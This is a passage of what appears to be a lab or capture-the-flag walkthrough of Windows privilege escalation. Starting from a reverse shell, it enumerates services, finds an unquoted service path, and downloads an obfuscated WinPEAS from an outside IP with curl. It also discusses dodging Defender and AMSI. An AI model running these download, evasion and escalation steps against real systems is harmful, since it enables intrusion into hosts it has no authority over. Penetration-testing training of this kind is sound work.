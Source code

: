 
We have a reverse shell but but but we don't have full access to the system which means that Thomas done security works on this so we have to see how to escalate the privileges from here. Will try to run Winpeas but it might get picked up the AV.

We have the winpeas copy with obfuscated and  
https://github.com/carlospolop/PEASS-ng

Things to keep in mind:
We have the manual enumeration option.
Defender will definitely pick the copy of winpeas but unlikely to catch .bat or obfuscated .exe
version.
But main thing we have to keep in mind to bypass is AMSI will alert defender if we try to 
load any PowerShell Priv-sec check scripts.

```
whoami /priv
```

```
whoami /groups
```
![[Pasted image 20240121004602.png]]

Start by looking for non-default services:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
![[Pasted image 20240121004855.png]]
![[Pasted image 20240121005421.png]]

As you can see that `SystemExploreHelpService` does not have quotes in the path the rings a bell to the mind that _Unquoted Service Path_ attack and escalate from here.

```
sc qc SystemExplorerHelpService
```
![[Pasted image 20240121010030.png]]

The service is running as LocalSystem which means now we have to check if we have write permission or not
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
![[Pasted image 20240121010229.png]]


This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary.

```
curl http://10.50.102.187/winPEASx64_ofs.exe -o C:\xampp\htdocs\resources\uploads\sardarji-win.exe
```
![[Pasted image 20240121011328.png]]

Finally able to run the winpeas ofs file aka obfuscated file
![[Pasted image 20240121013007.png]]

As you can see there is lot of vulnerability's here due to not upto date patching and updating of files
![[Pasted image 20240121013107.png]]

This is what we have found earlier and verified by the user
![[Pasted image 20240121013347.png]]

![[Pasted image 20240121013522.png]]

